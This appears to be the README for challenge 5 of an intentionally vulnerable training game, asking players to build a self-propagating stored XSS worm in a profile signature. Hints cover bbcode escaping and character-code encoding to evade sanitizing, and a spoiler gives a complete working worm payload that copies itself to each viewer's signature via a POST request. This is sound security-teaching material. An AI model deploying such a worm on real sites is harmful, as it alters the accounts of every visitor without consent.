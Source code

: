 # XSS/CSRF Challenge 5

----------------------

Hey friend,

I've got a challenge for you.

Using the same concept from challenge 3, craft an XSS exploit in the profile signature that behaves like a worm, updating the profile signature of anyone who views an infected profile to also have the same exploit code on their profile.

To do this, you'll need to escape out of the bbcode parser and get javascript execution, use javascript to get a copy of the exploit code, and craft some javascript (perhaps using ajax) to submit a request to the server to update the user's profile signature.

I have a phantomjs bot setup that will log in as my admin account and visit all user profiles in the game - to trigger it, just go to Trigger Admin Browser in the navigation. See if you can get the exploit on the admin's profile signature via this worm!

Thanks!

-Breakthenet Game Owner

----------------------

Stuck? 
----------------------
<details> 
  <summary>Click for hint 1</summary>
   You don't have jquery on the page, so you'll need to google how to do an ajax call with plain, vanilla javascript. You also need to gather the details about the call you need to do (get it from the Preferences / Profile Signature form page).
</details>

<details> 
  <summary>Click for hint 2</summary>
   To get a copy of the worm for the payload, have the code refer to itself!
   
   E.g. ```<img src='' id='bob' onLoad='document.getElementById("bob").getAttribute("onLoad")'>```
</details>

<details> 
  <summary>Click for hint 3</summary>
   You may find you need to use some characters in your payload that are difficult to escape properly (or just might be sanitized). To get around this, look at the javascript function String.fromCharCode.
</details>

<details> 
  <summary>Click for hint 4</summary>
   While constructing your payload, you may find this function useful:
   
   ```
String.prototype.toCharCode = function(){
    var str = this.split(''), len = str.length, work = new Array(len);
    for (var i = 0; i < len; ++i){
        work[i] = str[i].charCodeAt();
    }
    return work.join(',');
}
   ```
</details>

<details> 
  <summary>Click for hint 5</summary>
   If you run into trouble concatenating javascript strings with the plus symbol (+), try using the concat function instead!
   ```
   str1.concat(str2)
   ```
</details>

<details> 
  <summary>Major Spoiler - one possible solution</summary>
  If you've come this far but can't quite finish it off, I feel obligated to show you what a solution would look like. Here you go!
   ```
   [img]http://www.nyan.cat/cats/original.gif" id='uniqueimgid' onLoad="var xmlhttp;if (window.XMLHttpRequest) xmlhttp=new XMLHttpRequest();else xmlhttp=new ActiveXObject('Microsoft.XMLHTTP');xmlhttp.open('POST', 'preferences.php?action=profilesig2', true);xmlhttp.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');xmlhttp.send('newprofilesig='.concat(String.fromCharCode(91,105,109,103,93,104,116,116,112,58,47,47,119,119,119,46,110,121,97,110,46,99,97,116,47,99,97,116,115,47,111,114,105,103,105,110,97,108,46,103,105,102,34,32,105,100,61,39,117,110,105,113,117,101,105,109,103,105,100,39,32,111,110,76,111,97,100,61,34)).concat(document.getElementById('uniqueimgid').getAttribute('onLoad')).concat(String.fromCharCode(91, 47, 105, 109, 103, 93)));[/img]
   ```
</details>
